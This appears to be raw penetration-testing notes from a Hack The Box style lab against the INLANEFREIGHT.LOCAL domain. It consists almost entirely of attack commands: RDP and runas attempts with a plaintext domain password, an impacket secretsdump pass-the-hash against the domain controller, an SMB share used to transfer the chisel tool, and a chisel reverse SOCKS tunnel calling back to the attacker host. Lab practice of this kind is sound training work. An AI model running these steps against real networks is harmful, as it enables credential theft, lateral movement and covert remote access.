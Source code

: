 
C:\Windows\system32\netsh.exe interface portproxy delete v4tov4 listenport=3389 listenaddress=172.16.6.50

xfreerdp /u:tpetty /p:"Sup3rS3cur3D0m@inU2eR" /v:10.129.1.79:8080
xfreerdp /u:INLANEFREIGHT.LOCAL/tpetty /p:"Sup3rS3cur3D0m@inU2eR" /v:10.129.1.79:8080
xfreerdp /u:INLANEFREIGHT/tpetty /p:"Sup3rS3cur3D0m@inU2eR" /v:10.129.1.79:8080


--> Failed

runas /user:INLANEFREIGHT.LOCAL/tpetty "dir C:\Users\Administrator"

$credential = Get-Credential
Enter-PSSession -ComputerName localhost -Credential $credential

Enter-PSSession : Connecting to remote server localhost failed with the following error message : Access is denied.

tpetty@INLANEFREIGHT.LOCAL
Sup3rS3cur3D0m@inU2eR

--> failed

secretsdump -outputfile output -hashes 685decd67a67f5b6e45a182ed076d801 INLANEFREIGHT.LOCAL/tpetty@DC01

git clone https://github.com/jpillora/chisel.git

cd chisel
go build

sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py -smb2support share /home/htb-ac-786011/ -user test -password test

net use n: \\10.10.14.37\share /user:test test
The command completed successfully.

copy n:\chisel\chisel

dir C:\windows\system32\inetsrv
chisel

sudo vi /etc/proxychains.conf
socks5 127.0.0.1 1080 

On attack host :

cd chisel
sudo ./chisel server --reverse -v -p 1234 --socks5

On target :

./chisel client -v 10.10.14.37:1234 R:socks

wget https://github.com/jpillora/chisel/releases/download/v1.7.3/chisel_1.7.3_windows_amd64.gz
gzip -d chisel_1.7.3_windows_amd64.gz
mv chisel_1.7.3_windows_amd64 chisel.exe

Remove-Item chisel

net use n: \\10.10.14.37\share /user:test test
copy n:\chisel.exe
